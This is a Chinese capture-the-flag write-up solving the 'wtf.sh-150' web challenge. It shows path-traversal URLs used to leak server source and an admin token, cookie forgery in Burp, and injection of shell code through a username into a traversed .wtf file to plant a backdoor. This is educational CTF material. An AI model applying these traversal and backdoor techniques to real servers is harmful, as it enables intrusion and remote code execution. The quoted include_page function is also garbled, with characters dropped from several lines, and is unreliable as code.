 # wtf.sh-150
## 题目描述
暂无
## 思路
点开链接：  
![avatar](./picture/wtf.sh-150_1.png)  
离谱的画面，但是看到有注册和登录，猜想这一部分肯定是要用到的一个地方。注册 admin，说账户已存在，因此随便注册了一个。由于没什么头绪，因此查看了登录后的请求包，有一段 cookie：  
![avatar](./picture/wtf.sh-150_2.png)  
只要获得了 TOKEN，岂不就可以用 bp 伪造 admin 查看页面了？然而在此僵住了，不知道该怎么搞了。看了 wp，发现要进行路径穿越？？听都没听到过好嘛！不愧世界赛的题，打扰了。构造路径穿越的 payload：  
http://220.249.52.133:59435/post.wtf?post=../  
用 ctrl+f 找关键信息，没有 hint，但是找到了 flag 的相关内容：  
![avatar](./picture/wtf.sh-150_3.png)  
一看前后有 <html> 和 </html>，可知这是段 html 的代码，格式化一下：  
```html
<html> 
<head> 
    <link rel="stylesheet" type="text/css" href="/css/std.css" > 
</head> 
$ if contains 'user' ${!URL_PARAMS[@]} && file_exists "users/${URL_PARAMS['user']}" 
$ then 
    $ local username=$(head -n 1 users/${URL_PARAMS['user']}); 
    $ echo "<h3>${username}'s posts:</h3>"; 
    $ echo "<ol>";
    $ get_users_posts "${username}" | while read -r post; do 
        $ post_slug=$(awk -F/ '{print $2 "#" $3}' <<< "${post}"); 
        $ echo "<li><a href=\"/post.wtf?post=${post_slug}\">$(nth_line 2 "${post}" | htmlentities)</a></li>"; 
    $ done 
    $ echo "</ol>"; 
    <!--------------重要---------------->
    $ if is_logged_in && [[ "${COOKIES['USERNAME']}" = 'admin' ]] && [[ ${username} = 'admin' ]] 
    $ then 
        $ get_flag1 
    $ fi 
    <!--------------重要结束------------->
$ fi 
</html>
```
由那段重要的代码块可知，当 cookie 中的信息为 admin 的信息时，可以获得 flag1。因此，试图去找 admin 的相关信息：  
![avatar](./picture/wtf.sh-150_4.png)  
发现了 users 目录，因此去访问一下这个目录并直奔 admin 的信息：  
http://220.249.52.133:59435/post.wtf?post=../users  
![avatar](./picture/wtf.sh-150_5.png)  
然后，刷新主页，并用 burp 改信息，这里刷新主页的作用是为了获取后面查看 Profile 时，用到的 user 的值：  
![avatar](./picture/wtf.sh-150_6.png)  
可以看到，我们已经是 admin 了：  
![avatar](./picture/wtf.sh-150_7.png)  
查看 Profile，同样需要用 burp 改信息，GET 参数的 user 即是从主页过来时传递的：  
![avatar](./picture/wtf.sh-150_8.png)  
成功查看到 flag……的一半（RNM！）  
![avatar](./picture/wtf.sh-150_9.png)  
后面再次僵住，再次看大佬的 wp，发现直接看不懂了，后一半的 flag，是跟着大佬的 wp 一步一步复现出来的……因为 wtf 不是常规的网页文件，故寻找解析 wtf 文件的代码：  
![avatar](./picture/wtf.sh-150_10.png)  
格式化：  
```html
max_page_include_depth=64
page_include_depth=0
function include_page {
    # include_page pathname
    local pathname=$1
    local cmd=
    [[ ${pathname(-4)} = '.wtf' ]];
    local can_execute=$;
    page_include_depth=$(($page_include_depth+1))
    if [[ $page_include_depth -lt $max_page_include_depth ]]
    then
        local line;
        while read -r line; do
            # check if we're in a script line or not ($ at the beginning implies script line)
            # also, our extension needs to be .wtf
            [[ $ = ${line01} && ${can_execute} = 0 ]];
            is_script=$;
            # execute the line.
            if [[ $is_script = 0 ]]
            then
                cmd+=$'n'${line#$};
            else
                if [[ -n $cmd ]]
                then
                    eval $cmd  log Error during execution of ${cmd};
                    cmd=
                fi
                echo $line
            fi
        done  ${pathname}
    else
        echo pMax include depth exceeded!p
    fi
}
```
能够解析并执行 wtf 文件，如果还能够上传 wtf 文件并执行的话，就可以达到控制服务器的目的。于是继续审计代码，发现如下代码给了这个机会：  
```html
function reply {
    local post_id=$1;
    local username=$2;
    local text=$3;
    local hashed=$(hash_username "${username}");
    curr_id=$(
    for d in posts/${post_id}/*; 
    do basename $d; 
    done | sort -n | tail -n 1);
    next_reply_id=$(awk '{print $1+1}' <<< "${curr_id}");
    next_file=(posts/${post_id}/${next_reply_id});
    echo "${username}" > "${next_file}";
    echo "RE: $(nth_line 2 < "posts/${post_id}/1")" >> "${next_file}";
    echo "${text}" >> "${next_file}";
    # add post this is in reply to to posts cache
    echo "${post_id}/${next_reply_id}" >> "users_lookup/${hashed}/posts";
}
```
这是评论功能的后台代码，这部分也是存在路径穿越的。这行代码把用户名写在了评论文件的内容中：  
```html
echo "${username}" > "${next_file}";
```
如果用户名是一段可执行代码，而且写入的文件是 wtf 格式的，那么这个文件就能够执行我们想要的代码。先普通地评论一下，知晓评论发送的数据包的结构。在普通评论的基础上，进行路径穿越，上传后门sh.wtf，并发现可以执行。为了写入恶意代码，我们得让用户名里携带代码，故注册这样一个用户：  
![avatar](./picture/wtf.sh-150_11.png)  
写入后门，路径最后要加 %09，即水平制表符，否则服务器会将 sh.wtf 识别为一个目录：  
![avatar](./picture/wtf.sh-150_12.png)  
访问后门，执行代码，寻找get_flag2（因为之前获得 flag1 的时候是 get_flag1）：  
![avatar](./picture/wtf.sh-150_13.png)  
再注册一个访问 get_flag2 的用户：  
![avatar](./picture/wtf.sh-150_14.png)  
同样写入后门：  
![avatar](./picture/wtf.sh-150_15.png)  
访问后门，获得后半段 flag：  
![avatar](./picture/wtf.sh-150_16.png)  

## 考察知识点
1. wtf 文件特性  
2. 路径穿越  
3. html 代码审计
